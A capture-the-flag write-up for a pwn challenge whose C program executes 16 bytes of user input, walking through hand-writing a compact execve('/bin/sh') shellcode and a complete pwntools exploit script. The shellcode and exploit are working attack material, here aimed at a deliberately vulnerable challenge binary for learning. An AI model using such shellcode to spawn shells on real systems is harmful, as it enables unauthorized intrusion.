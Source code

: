 # Free Your Mind - PWN (200pts)

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door\
. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

## Investigation
This challenge is more a task of avoiding constraints rather than identifying a weakness and exploiting it. From the source code we can see that the binary reads input data, stores it in the array declared as shellcode and then attempts to run this as a function. Assuming we can input a working shellcode to the binary, it should spawn a shell. Since the pointer is provided by the source code, we don't have to worry about ASLR for this challenge.

But there is a problem - The allocated memory for shellcode is only 16 bytes. By using conventional methods such as pwntools asm() or cherrypicking shellcode from shell-storm.org we will end up with too many bytes and our exploit will not work. 

For example, by using `asm(shellcraft.sh())`, we end up with 48 bytes of shellcode, and there was nothing that I found online that could be MacGyvered into 16 bytes.

## Solution

It looks like we will just have to write our own shellcode, which is probably the intended solution by the author as well. It forces us to learn how it works and that makes it a good chall in my opinion.

We can either write manual assembly and compile it, but the asm()-function in pwntools saves us from this slave labour while still teaching us the most important part.

Let's first understand what we need to do. The code we want to execute is a syscall known as `execve('/bin/sh')`. Since we are coding this in Assembly we need to check the register and value set-up before we start. A good resource on this is https://filippo.io/linux-syscall-table/. Search for execve and double click the entry to expand.

We see the assembly call for execve() is a syscall where RAX has the value of 59 (0x3b). It takes three arguments; a filename pointer in RDI, an argv in RSI and env in RDX.

To explain this in terms of pseudo-Assembly we want to execute `syscall(RAX, RDI, RSI, RDX)`, where `RAX=0x3b`, `RDI=<pointer to '/bin/sh'>`, `RSI=0x0` and `RDX=0x0`.

The static values we already know - All we need is the pointer. Open the binary in GDB, run, CTRL+C to interrupt the process and type `find '/bin/sh'`. We know from the source code that there is a pointer in main so we just need to grab it: `0x4011b3`

Now we can stitch together assembly-code. We know that we need the code to be 16 bytes or lower, so let's use the 32-bit registers to make the syscall. We can start with the parameters of execve(): `EDI, ESI, EDX`:

`mov edi, 0x4011b3;`, `xor esi, esi;`, `xor edx, edx;`.

That's our params set up. Now to make the right syscall - EAX needs to be 0x3b:

`mov eax, 0x3b;` and then make the call to system: `syscall;`.

Stitch it together with pwntools asm():

```py
shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')
```

This translates to `execve('/bin'sh')` You can check the length of the shellcode with a quick python sandbox:
```py
>>> from pwn import *
>>> len(asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall'))
16
```

That should do the trick. Now plop it into a script and run the exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

gdbscript = '''
b *0x0000000000401245
continue
'''.format(**locals())

io = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
#io = gdb.debug('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d',  gdbscript=gdbscript)
#io = remote('chal.ctf.b01lers.com', '1007')

shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall')

log.info(f'Shellcode length: {len(shellcode)}')
print(len(asm(shellcraft.sh())))

io.sendlineafter('it.', shellcode)

io.interactive()
```

Run it. 





